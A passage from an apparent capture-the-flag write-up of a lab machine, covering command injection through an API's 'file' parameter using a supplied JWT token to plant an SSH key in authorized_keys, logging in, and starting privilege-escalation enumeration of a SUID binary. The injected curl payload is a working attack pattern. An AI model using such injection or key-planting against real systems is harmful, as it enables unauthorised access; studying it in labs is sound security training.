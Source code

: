 ![[seventh.png]]

This command generates a new SSH public and private key in your current directory named `10.10.11.120`.

To ensure the public key is added, make sure that the `.ssh` folder exists on the system, and there is a file called `.ssh/authorized_keys`. Rather than manually checking, we can add commands that won’t overwrite any existing files or folders, but will create them if they don’t exist.

-   `mkdir -p /home/dasith/.ssh`
-   `echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys`

First, store the contents of your public key into a bash variable:

```bash
[user@parrot]~$ curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjFlMTU1MmM5ZTZlYjA0NjFjOWE1ZGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im5pa2tAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2MTM4ODYzfQ.7fwnTwm0Ze-63VU-K-fVIochFfesOjlvi6S-DTHJJek' -G --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" '<http://10.10.11.120/api/logs>'
```

![[eigth.png]]

Receiving a 200 indicates that our test probably worked! SSH into the box.

```bash
[user@parrot]~$ ssh -i 10.10.11.120 dasith@10.10.11.120
```

![[nineth.png]]

Get that user hash

```bash
[user@parrot]~$ cat user.txt
```

Probably a bit too much partying for `user`, but it is still hella exciting! Keep that energy going and root this bad boy.

### Enumeration: The Box

The typical enumeration didn’t lead to anything blatantly obvious. Trying `linenum.sh` was a bust. I usually try the `/opt` folder to see if any extra manually installed applications are live. Excellent! We have some C code, a compiled version of it with a SUID bit enabled (owned as root), and a Valgrind output file.

This was the most difficult part of the box for me, and it took quite a while. Honestly, this is really where I think it leaves the “easy” realm and becomes a more “medium” box.

Before diving into the code, check out the program in action. Since we have the SUID bit enabled, we can run this application as its owner, in this case, `root`!

![[tenth.png]]

Enter `/root/root.txt` since that’s a file known to exist on this system. It has a similar output to the `wc` command, and there’s even an option to save the output to a file. Doing so only saves the count data, nothing about the actual file contents. Disappointing. Try again using the `/root` directory. This is great, there's access to `root`, but it needs to be leveraged into privilege escalation.

